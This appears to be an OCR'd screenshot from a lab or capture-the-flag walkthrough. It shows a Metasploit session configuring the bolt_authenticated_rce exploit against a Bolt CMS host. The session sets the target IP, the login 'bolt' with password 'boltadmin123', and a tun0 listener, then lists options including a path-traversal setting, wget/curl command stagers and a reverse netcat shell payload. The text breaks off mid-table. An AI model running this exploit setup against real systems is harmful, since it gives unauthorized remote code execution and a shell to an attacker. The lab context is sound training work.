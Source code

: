 ```bash
   2   Linux (cmd)



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS *********
RHOSTS => 10.10.162.118
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME *********
USERNAME => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD *********
PASSWORD => boltadmin123
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST tun0
LHOST => 10.13.5.5
msf6 exploit(unix/webapp/bolt_authenticated_rce) > options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name               Current Setting    Required  Description
   ----               ---------------    --------  -----------
   FILE_TRAVERSAL_PA  ../../../public/f  yes       Traversal path from "/files
   TH                 iles                         " on the web server to "/ro
                                                   ot" on the server
   PASSWORD           *********          yes       Password to authenticate wi
                                                   th
   Proxies                               no        A proxy chain of format typ
                                                   e:host:port[,type:host:port
                                                   ][...]
   RHOSTS             10.10.162.118      yes       The target host(s), see htt
                                                   ps://docs.metasploit.com/do
                                                   cs/using-metasploit/basics/
                                                   using-metasploit.html
   RPORT              8000               yes       The target port (TCP)
   SSL                false              no        Negotiate SSL/TLS for outgo
                                                   ing connections
   SSLCert                               no        Path to a custom SSL certif
                                                   icate (default is randomly
                                                   generated)
   TARGETURI          /                  yes       Base path to Bolt CMS
   URIPATH                               no        The URI to use for this exp
                                                   loit (default is random)
   USERNAME           ****               yes       Username to authenticate wi
                                                   th
   VHOST                                 no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):
>
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  *********        yes       The listen address (an interface may be s
```